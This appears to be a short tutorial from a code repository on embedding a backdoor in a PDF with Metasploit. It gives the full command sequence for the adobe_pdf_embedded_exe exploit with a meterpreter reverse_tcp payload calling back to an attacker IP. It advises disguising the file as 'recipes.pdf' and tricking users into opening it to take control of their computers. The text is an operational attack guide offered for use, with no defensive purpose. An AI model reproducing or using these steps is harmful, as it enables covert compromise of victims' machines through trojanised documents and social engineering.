 # How-to-Embed-a-backdoor-in-a-PDF-file
How to Embed a backdoor in a PDF file


Step 1)Run Metasploit

Step2) Find the Appropriate Exploit.

I will search metasploits database for an exploit for adobe pdf on windows, using this command:

●Code:msf > search type:exploit platform:windows adobe pdf

You should see the exploit "exploit/windows/fileformat/adobe_pdf_embedded_exe", which we will use:

●Code:msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe

Step 3) Set the Payload

I will use the meterpreter payload again, because it is one of the most powerful payloads available to us:

●Code:msf > exploit (adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse_tcp

Step 4) Set the exploit options

First, display the required options for the exploit:

●Code:msf > exploit (adobe_pdf_embedded_exe) > show options

You can see that we must provide an existing PDF file to the INFILENAME option in which to embed the meterpreter payload. I will call it "hemantexample.pdf":

●Code: msf > exploit (adobe_pdf_embedded_exe) > set INFILENAME example.pdf

The next option is the output file name, FILENAME. Change this to something innocent that will attract users to open it:
msf > exploit (adobe_pdf_embedded_exe) > set FILENAME recipes.pdf

Finally, we need to specify the LHOST, which is our (the attackers) IP address. Mine is 192.168.1.8:

●Code:msf > exploit (adobe_pdf_embedded_exe) > set LHOST 192.168.1.8

Step5) Run the Exploit.

Now that all the options are set, we can run the exploit like this:

●Code: msf > exploit (adobe_pdf_embedded_exe) > exploit

Metasploit has created a PDF named recipes.pdf that contains the Meterpeter listener. Now, simply get users to open the pdf (Social Engineering again), and you will get instant control of their computer easy as fucking smile :)
